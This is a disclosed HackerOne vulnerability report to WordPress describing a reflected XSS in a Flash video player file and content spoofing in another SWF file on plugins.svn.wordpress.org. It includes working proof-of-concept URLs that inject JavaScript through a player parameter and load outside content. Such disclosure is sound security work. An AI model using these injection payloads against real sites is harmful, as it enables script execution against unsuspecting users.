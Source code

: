 # Reflected Swf XSS In ( plugins.svn.wordpress.org )

## Report Details
- **Report ID**: 270060
- **URL**: https://hackerone.com/reports/270060
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-09-21T01:42:18.159Z
- **Disclosed**: 2018-09-27T17:16:27.278Z

## Reporter
- **Username**: m7mdharoun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Hello ,
 I have found XSS in flash File ( video-js.swf ) in  plugins.svn.wordpress.org 
 and Content Spoofing Vulnerability in moxieplayer.swf

          ** POC **
https://plugins.svn.wordpress.org/1player/tags/1.3/players/video-js/video-js.swf?readyFunction=alert(%27Hello%27)


{F222664}


https://plugins.svn.wordpress.org/agile-video-player/trunk/js/plugins/media/moxieplayer.swf?url=hekimuso1973.xsl.pt/723.flv

## Attachments
- XSS_wordpress.jpg
